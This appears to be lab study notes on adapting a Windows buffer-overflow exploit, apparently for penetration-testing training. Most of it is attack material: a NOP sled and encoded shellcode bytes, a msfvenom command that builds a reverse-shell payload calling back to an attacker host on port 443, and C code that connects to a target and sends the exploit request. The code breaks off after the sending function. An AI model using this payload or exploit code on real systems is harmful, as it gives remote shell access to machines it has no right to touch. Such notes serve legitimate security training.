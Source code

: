 ```
  "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
  "\xdb\xda\xbd\x92\xbc\xaf\xa7\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
```
- bad characters are already listed in the exploit
1. generate payload with msfvenom
	- target the x86 platform
	- format it for c code
2. ```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
``
3. Final exploit code ```
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#define DEFAULT_BUFLEN 512

#include <inttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>

DWORD SendRequest(char *request, int request_size) {
    WSADATA wsa;
    SOCKET s;
    struct sockaddr_in server;
    char recvbuf[DEFAULT_BUFLEN];
    int recvbuflen = DEFAULT_BUFLEN;
    int iResult;

    printf("\n[>] Initialising Winsock...\n");
    if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0)
    {
        printf("[!] Failed. Error Code : %d", WSAGetLastError());
        return 1;
    }

    printf("[>] Initialised.\n");
    if ((s = socket(AF_INET, SOCK_STREAM, 0)) == INVALID_SOCKET)
    {
        printf("[!] Could not create socket : %d", WSAGetLastError());
    }

    printf("[>] Socket created.\n");
    server.sin_addr.s_addr = inet_addr("192.168.50.120");
    server.sin_family = AF_INET;
    server.sin_port = htons(80);

    if (connect(s, (struct sockaddr *)&server, sizeof(server)) < 0)
    {
        puts("[!] Connect error");
        return 1;
    }
    puts("[>] Connected");

    if (send(s, request, request_size, 0) < 0)
    {
        puts("[!] Send failed");
        return 1;
    }
    puts("\n[>] Request sent\n");
    closesocket(s);
    return 0;
}

